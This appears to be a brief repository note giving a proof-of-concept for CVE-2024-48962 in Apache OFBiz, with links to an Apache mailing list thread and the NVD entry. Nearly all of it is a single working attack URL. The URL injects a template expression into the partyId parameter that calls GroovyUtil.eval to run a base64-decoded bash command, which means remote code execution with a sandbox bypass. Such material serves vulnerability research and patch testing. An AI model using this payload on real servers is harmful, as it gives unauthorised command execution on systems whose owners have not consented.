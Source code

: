 Simple redirection/CSRF to SSTI with sandbox bypass leading to RCE:
- https://lists.apache.org/thread/mmo13ko5xn50f2yq4z0dfk9fdj8ffgt6
- https://nvd.nist.gov/vuln/detail/CVE-2024-48962

poc:
```
https://domain/partymgr/control/viewprofile?partyId=${Static["org.apache.ofbiz.base.util.GroovyUtil"].eval("\'bash -c {echo,B64}|{base64,-d}|bash\'.execute()",null)}
```
